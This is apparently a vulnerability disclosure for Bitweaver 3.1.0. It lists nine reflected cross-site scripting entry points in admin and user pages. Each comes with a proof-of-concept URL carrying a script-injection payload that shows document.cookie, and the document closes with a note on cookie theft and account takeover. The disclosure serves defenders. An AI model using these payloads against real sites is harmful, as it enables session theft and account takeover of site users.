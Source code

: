 # Description

A cross-site scripting (XSS) issue in the Bitweaver  version 3.1.0 allows remote attackers to inject JavaScript via the multiple URI.
___
# XSS 1

**Vulnerable URI** - /users/admin/edit_group.php

**Steps to Reproduce Vulnerability:**

1- Login to Bitweaver Admin Panel

2- POC: https://localhost/bitweaver/users/admin/edit_group.php/'"--></style></scRipt><scRipt>alert(document.cookie)</scRipt>

**Screenshot:**

![POC](https://user-images.githubusercontent.com/69595454/111915623-e311b400-8a7f-11eb-94be-46cc6e98cde9.png)
___
___

# XSS 2

**Vulnerable URI** - /users/admin/index.php

**Steps to Reproduce Vulnerability:**

1- Login to Bitweaver Admin Panel

2- POC: https://localhost/bitweaver/users/admin/index.php/'"--></style></scRipt><scRipt>alert(document.cookie)</scRipt>

**Screenshot:**

![POC](https://user-images.githubusercontent.com/69595454/111915745-79de7080-8a80-11eb-9494-eb771bd5422d.png)

___
___
# XSS 3

**Vulnerable URI** - /users/admin/permissions.php

**Steps to Reproduce Vulnerability:**

1- Login to Bitweaver Admin Panel

2- POC: https://localhost/bitweaver/users/admin/permissions.php/'"--></style></scRipt><scRipt>alert(document.cookie)</scRipt>

**Screenshot:**

![POC](https://user-images.githubusercontent.com/69595454/111915932-4a7c3380-8a81-11eb-8a6f-65359ae081ba.png)

___
___

# XSS 4

**Vulnerable URI** - /users/admin/user_activity.php

**Steps to Reproduce Vulnerability:**

1- Login to Bitweaver Admin Panel

2- POC: https://localhost/bitweaver/users/admin/user_activity.php/'"--></style></scRipt><scRipt>alert(document.cookie)</scRipt>

**Screenshot:**

![POC](https://user-images.githubusercontent.com/69595454/111916022-bb235000-8a81-11eb-877d-4c4014cc121d.png)

___
___
# XSS 5

**Vulnerable URI** - /users/admin/users_import.php

**Steps to Reproduce Vulnerability:**

1- Login to Bitweaver Admin Panel

2- POC: https://localhost/bitweaver/users/admin/users_import.php/'"--></style></scRipt><scRipt>alert(document.cookie)</scRipt>

**Screenshot:**

![POC](https://user-images.githubusercontent.com/69595454/111916123-1bb28d00-8a82-11eb-9b89-d7a86339db59.png)

___
___
# XSS 6

**Vulnerable URI** - /users/edit_personal_page.php

**Steps to Reproduce Vulnerability:**

1- Login to Bitweaver Admin Panel

2- POC: https://localhost/bitweaver/users/edit_personal_page.php/'"--></style></scRipt><scRipt>alert(document.cookie)</scRipt>

**Screenshot:**

![POC](https://user-images.githubusercontent.com/69595454/111916256-adba9580-8a82-11eb-9786-ca5fcd94fe54.png)

___
___
# XSS 7

**Vulnerable URI** - /users/index.php

**Steps to Reproduce Vulnerability:**

1- Login to Bitweaver Admin Panel

2- POC: https://localhost/bitweaver/users/index.php/'"--></style></scRipt><scRipt>alert(document.cookie)</scRipt>

**Screenshot:**

![POC](https://user-images.githubusercontent.com/69595454/111916344-19046780-8a83-11eb-8161-90be8dca94ee.png)

___
___
# XSS 8

**Vulnerable URI** - /users/my_images.php

**Steps to Reproduce Vulnerability:**

1- Login to Bitweaver Admin Panel

2- POC: https://localhost/bitweaver/users/my_images.php/'"--></style></scRipt><scRipt>alert(document.cookie)</scRipt>

**Screenshot:**

![POC](https://user-images.githubusercontent.com/69595454/111916418-80bab280-8a83-11eb-9878-1ec080360f5d.png)
___
___
# XSS 9

**Vulnerable URI** - /users/preferences.php


**Steps to Reproduce Vulnerability:**

1- Login to Bitweaver Admin Panel

2- POC: https://localhost/bitweaver/users/preferences.php/'"--></style></scRipt><scRipt>alert(document.cookie)</scRipt>

**Screenshot:**

![POC](https://user-images.githubusercontent.com/69595454/111916481-cd05f280-8a83-11eb-8895-ac98f4d23c7c.png)
___
___
# Impact

With the help of xss attacker can perform social engineering on users by redirecting them from real website to fake one. Attacker can steal their cookies leading to account takeover and download a malware on their system, and there are many more attacking scenarios a skilled attacker can perform with xss.
